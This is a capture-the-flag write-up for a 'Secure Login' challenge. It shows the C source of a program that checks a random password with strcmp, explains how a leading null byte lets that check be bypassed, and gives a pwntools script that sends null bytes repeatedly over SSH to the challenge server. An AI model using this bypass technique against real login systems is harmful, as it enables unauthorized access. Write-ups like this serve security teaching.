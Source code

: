 # Secure Login

## Description

My login is, potentially, and I don't say this lightly, if you know me you know that's the truth, it's truly, and no this isn't snake oil, this is, no joke, the most secure login service in the world (source).

Try to hack me at /problems/2021/secure_login on the shell server.

## Solution

Let's take a look to the code:

````
#include <stdio.h>

char password[128];

void generate_password() {
	FILE *file = fopen("/dev/urandom","r");
	fgets(password, 128, file);
	fclose(file);
}

void main() {
	puts("Welcome to my ultra secure login service!");

	// no way they can guess my password if it's random!
	generate_password();

	char input[128];
	printf("Enter the password: ");
	fgets(input, 128, stdin);

	if (strcmp(input, password) == 0) {
		char flag[128];

		FILE *file = fopen("flag.txt","r");
		if (!file) {
		    puts("Error: missing flag.txt.");
		    exit(1);
		}

		fgets(flag, 128, file);
		puts(flag);
	} else {
		puts("Wrong!");
	}
}

````

The function fgets, doesn't seem vulnerable... But strcmp starts comparing the first character of each string. If they are equal to each other, it continues with the following pairs until the characters differ or until a terminating null-character is reached. 
So if the two strings starts with the string terminator the function will return 0 because the two strings match up to the null character.

We reach our goal! Let's write the script:
````
from pwn import *

#connection
conn = ssh(host='shell.actf.co', user='team', password='pw')
conn = conn.shell('/bin/bash')
conn.sendline('cd /problems/2021/secure_login')

#waiting for the magic
for x in range(1000):
	conn.sendline('./login')
	conn.recvuntil(': ')
	conn.sendline(b'\x00')
	print(conn.recvline())

conn.interactive()
conn.close()
````


#### **FLAG >>** `FLAG QUI`
